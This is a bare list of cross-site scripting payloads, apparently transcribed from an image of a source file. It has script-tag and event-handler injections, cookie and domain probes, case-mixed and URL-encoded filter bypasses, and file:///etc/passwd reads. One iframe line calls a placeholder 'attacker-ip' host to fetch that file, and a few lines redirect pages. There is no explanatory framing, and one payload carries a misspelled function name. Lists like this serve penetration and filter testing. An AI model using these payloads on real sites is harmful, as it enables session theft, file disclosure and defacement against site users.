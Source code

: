 "><script>alert(1)</script>
"><script>alert(document.domain)</script>
"><script>alert(document.cookie)</script>
"><script>prompt(1)</script>
"><script>prompt(document.domain)</script>
"><script>prompt(document.cookie)</script>
"><svg><script>alert(1)</script>
?s="onerror="innerHTML=decodeURIComponet.call`${location.hash}`"#<img src onerror=alert(1337)>
?s="onerror="location=/javascript:/.source%2Blocation"&a=%0A+alert(1337)
?s="onerror="window.onerror=alert;throw 1337"
?s="onerror="alert%261par;1337%26rpar;"
?s="onerror="alert`1337`"
<img src="xxx" onerror="document.write('\<iframe src=file:///etc/passwd>\</iframe>')"/>
<link rel=attachment href="file:///etc/passwd">
<iframe src="http://attacker-ip/test.php?file=/etc/passwd">\</iframe>
<IMG sRC=X onerror=jaVaScRipT:alert`xss`>
%22%3E%3CIMG%20sRC=X%20onerror=jaVaScRipT:alert`xss`%3E
<svg  xmlns="http://www.w3.org/2000/svg" onload="alert(document.cookie)"/>
<svg><style> <script>alert(1)</script> </style></svg>
<math><style> <img src onerror=alert(2)> </style></math>
<script>window.location.assign('https://secure.eicar.org/eicar_com.zip')</script>
<body style="background-color:red">
<body style="background-color:red !important;">
<body onload=window.location.assign('https://www.google.com')>
alert(123)
alert("test")
alert(document.cookie)
alert(document.domain)
confirm(123)
confirm("test")
confirm(document.cookie)
confirm(document.domain)
prompt(123)
prompt("test")
prompt(document.cookie)
prompt(document.domain)